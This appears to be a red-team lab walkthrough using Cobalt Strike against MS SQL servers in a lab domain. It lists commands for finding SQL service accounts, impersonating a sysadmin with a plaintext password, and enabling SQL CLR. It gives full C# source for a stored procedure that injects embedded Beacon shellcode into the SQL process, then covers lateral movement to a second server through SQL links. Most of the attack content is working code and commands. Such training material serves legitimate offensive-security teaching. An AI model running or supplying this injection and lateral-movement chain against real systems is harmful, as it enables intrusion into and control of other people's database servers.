 
Load the SQL-BOF Aggressor script.

1. Go to **Cobalt Strike > Script Manager**.
2. Click **Load**.
3. Select _C:\Tools\SQL-BOF\SQL\SQL.cna_.

- Search for MS SQL servers configured for Kerberos authentication.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306368)(servicePrincipalName=MSSQLSvc*)) --attributes name,samAccountName,servicePrincipalName`
    
-  Get information about the lon-db-1 instance.
    
    1.  sql-info lon-db-1
-  Query your current privileges on the SQL instance.
    
    1.  sql-whoami lon-db-1
-  Impersonate a sysadmin user.
    
    1.  make_token CONTOSO\rsteel Passw0rd!
-  Query your privileges again and see how they've changed.

- Check the status of SQL CLR.
    
    BeaconTypeCopy
    
    `sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"`
    
-  Enable SQL CLR on _lon-db-1_.
    
    1. sql-enableclr lon-db-1
-  Open Visual Studio and create a new Class Library (.NET Framework) project:
    
    1. Project name: MyProcedure.
    2. Place in the same directory: Checked
-  Add _smb_x64.xthread.bin_ as an embedded resource.
    
-  Paste the following code:
    
```c#
using System;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        var assembly = Assembly.GetExecutingAssembly();

        byte[] shellcode;

        // read embedded payload
        using (var rs = assembly.GetManifestResourceStream("MyProcedure.smb_x64.xthread.bin"))
        {
            using (var ms = new MemoryStream())
            {
                rs.CopyTo(ms);
                shellcode = ms.ToArray();
            }
        }

        // allocate memory
        var hMemory = VirtualAlloc(
            IntPtr.Zero,
            (uint)shellcode.Length,
            VIRTUAL_ALLOCATION_TYPE.MEM_COMMIT | VIRTUAL_ALLOCATION_TYPE.MEM_RESERVE,
            PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

        // copy shellcode
        WriteProcessMemory(
            new IntPtr(-1),
            hMemory,
            shellcode,
            (uint)shellcode.Length,
            out _);

        // create thread
        var hThread = CreateThread(
            IntPtr.Zero,
            0,
            hMemory,
            IntPtr.Zero,
            THREAD_CREATION_FLAGS.THREAD_CREATE_RUN_IMMEDIATELY,
            out _);

        // close thread handle
        CloseHandle(hThread);
    }

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern IntPtr VirtualAlloc(
        IntPtr lpAddress,
        uint dwSize,
        VIRTUAL_ALLOCATION_TYPE flAllocationType,
        PAGE_PROTECTION_FLAGS flProtect);

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        uint nSize,
        out uint lpNumberOfBytesWritten);

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern IntPtr CreateThread(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        THREAD_CREATION_FLAGS dwCreationFlags,
        out uint lpThreadId);

    [DllImport("KERNEL32.dll", ExactSpelling = true, SetLastError = true)]
    [DefaultDllImportSearchPaths(DllImportSearchPath.System32)]
    public static extern bool CloseHandle(IntPtr hObject);

    [Flags]
    public enum VIRTUAL_ALLOCATION_TYPE : uint
    {
        MEM_COMMIT = 0x00001000,
        MEM_RESERVE = 0x00002000,
        MEM_RESET = 0x00080000,
        MEM_RESET_UNDO = 0x01000000,
        MEM_REPLACE_PLACEHOLDER = 0x00004000,
        MEM_LARGE_PAGES = 0x20000000,
        MEM_RESERVE_PLACEHOLDER = 0x00040000,
        MEM_FREE = 0x00010000,
    }

    [Flags]
    public enum PAGE_PROTECTION_FLAGS : uint
    {
        PAGE_NOACCESS = 0x00000001,
        PAGE_READONLY = 0x00000002,
        PAGE_READWRITE = 0x00000004,
        PAGE_WRITECOPY = 0x00000008,
        PAGE_EXECUTE = 0x00000010,
        PAGE_EXECUTE_READ = 0x00000020,
        PAGE_EXECUTE_READWRITE = 0x00000040,
        PAGE_EXECUTE_WRITECOPY = 0x00000080,
        PAGE_GUARD = 0x00000100,
        PAGE_NOCACHE = 0x00000200,
        PAGE_WRITECOMBINE = 0x00000400,
        PAGE_GRAPHICS_NOACCESS = 0x00000800,
        PAGE_GRAPHICS_READONLY = 0x00001000,
        PAGE_GRAPHICS_READWRITE = 0x00002000,
        PAGE_GRAPHICS_EXECUTE = 0x00004000,
        PAGE_GRAPHICS_EXECUTE_READ = 0x00008000,
        PAGE_GRAPHICS_EXECUTE_READWRITE = 0x00010000,
        PAGE_GRAPHICS_COHERENT = 0x00020000,
        PAGE_GRAPHICS_NOCACHE = 0x00040000,
        PAGE_ENCLAVE_THREAD_CONTROL = 0x80000000,
        PAGE_REVERT_TO_FILE_MAP = 0x80000000,
        PAGE_TARGETS_NO_UPDATE = 0x40000000,
        PAGE_TARGETS_INVALID = 0x40000000,
        PAGE_ENCLAVE_UNVALIDATED = 0x20000000,
        PAGE_ENCLAVE_MASK = 0x10000000,
        PAGE_ENCLAVE_DECOMMIT = 0x10000000,
        PAGE_ENCLAVE_SS_FIRST = 0x10000001,
        PAGE_ENCLAVE_SS_REST = 0x10000002,
        SEC_PARTITION_OWNER_HANDLE = 0x00040000,
        SEC_64K_PAGES = 0x00080000,
        SEC_FILE = 0x00800000,
        SEC_IMAGE = 0x01000000,
        SEC_PROTECTED_IMAGE = 0x02000000,
        SEC_RESERVE = 0x04000000,
        SEC_COMMIT = 0x08000000,
        SEC_NOCACHE = 0x10000000,
        SEC_WRITECOMBINE = 0x40000000,
        SEC_LARGE_PAGES = 0x80000000,
        SEC_IMAGE_NO_EXECUTE = 0x11000000,
    }

    [Flags]
    public enum THREAD_CREATION_FLAGS : uint
    {
        THREAD_CREATE_RUN_IMMEDIATELY = 0x00000000,
        THREAD_CREATE_SUSPENDED = 0x00000004,
        STACK_SIZE_PARAM_IS_A_RESERVATION = 0x00010000,
    }
}
```    
    
    
 This will perform classic injection where the Beacon will run inside the MS SQL process.
    
-  Load the DLL on _lon-db-1_.
    
    beaconTypeCopy
    
    `sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure`
    
-  Link to the Beacon.
    
    1. link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
-  Disable SQL CLR _lon-db-1_.
    
    1. sql-disableclr lon-db-1

### Lateral movement

- Enumerate SQL links on _lon-db-1_.
    
    1. sql-links lon-db-1
-  Verify your privileges on _lon-db-2_ via _lon-db-1_.
    
    1. sql-whoami lon-db-1 "" lon-db-2
-  Check the status of RPC Out on the link.
    
    1. sql-checkrpc lon-db-1
-  Enable RPC Out on the link to _lon-db-2_.
    
    1. sql-enablerpc lon-db-1 lon-db-2
-  Execute the SQL CLR payload on _lon-db-2_ via _lon-db-1_.
    
    BeaconTypeCopy
    
    `sql-clr lon-db-1 C:\Users\Attacker\source\repos\MyProcedure\bin\Release\MyProcedure.dll MyProcedure "" lon-db-2`
    
-  Link to the Beacon on _lon-db-2_ from the Beacon running on _lon-db-1_.
    
    1. link lon-db-2 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337